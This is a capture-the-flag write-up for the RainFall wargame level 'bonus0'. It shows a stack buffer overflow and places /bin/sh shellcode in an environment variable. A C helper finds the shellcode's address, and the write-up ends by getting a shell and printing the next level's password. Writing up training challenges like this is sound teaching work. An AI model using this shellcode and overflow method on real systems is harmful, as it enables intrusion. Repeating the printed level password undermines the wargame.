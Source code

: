 # Bonus 0

The program reads the stdin two times then concatenates them and prints the result

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
Lee
 - 
Sang-Hyeok
Lee Sang-Hyeok
```

By imputing a lot of characters, we have a segfault

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��� aaaaaaaaaaaaaaaaaaaa���
Segmentation fault (core dumped)
bonus0@RainFall:~$ dmesg
[...]
[33664.608283] bonus0[2087]: segfault at 61616161 ip 61616161 sp bffff660 error 14
```

After successfully imputing a shellcode and running it with the help of a script, we go through this error:

```dmesg
[26277.356375] bonus0[14459] general protection ip:bffff65e sp:bffff66c error:0
```

Which suggest that there are some kind of protections. Fortunately we can pass the shellcode through the environnement!

```bash
export SHELLCODE=$(python -c 'print("\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
```

To retrieve the address of the shellcode, we can use a little C program:

```c
int main() {
	printf("%p\n", getenv("SHELLCODE"));
}
```

```bash
bonus0@RainFall:/tmp$ gcc /home/user/bonus0/main.c
/home/user/bonus0/main.c: In function ‘main’:
/home/user/bonus0/main.c:2:2: warning: incompatible implicit declaration of built-in function ‘printf’ [enabled by default]
/home/user/bonus0/main.c:2:2: warning: format ‘%p’ expects argument of type ‘void *’, but argument 2 has type ‘int’ [-Wformat]
bonus0@RainFall:/tmp$ ./a.out 
0xbffff889
```

We don't really care about warnings here, so we'll just take our address: `0xbffff889` and put it into our script.

Now lets try our script again:

```bash
bonus0@RainFall:~$ python bonus0.py | ./bonus0 
 - 
 - 
aaaaaaaaaaaaaaaaaaaa01234������������bbb��� 01234������������bbb���
whoami
bonus1
cd ../bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
````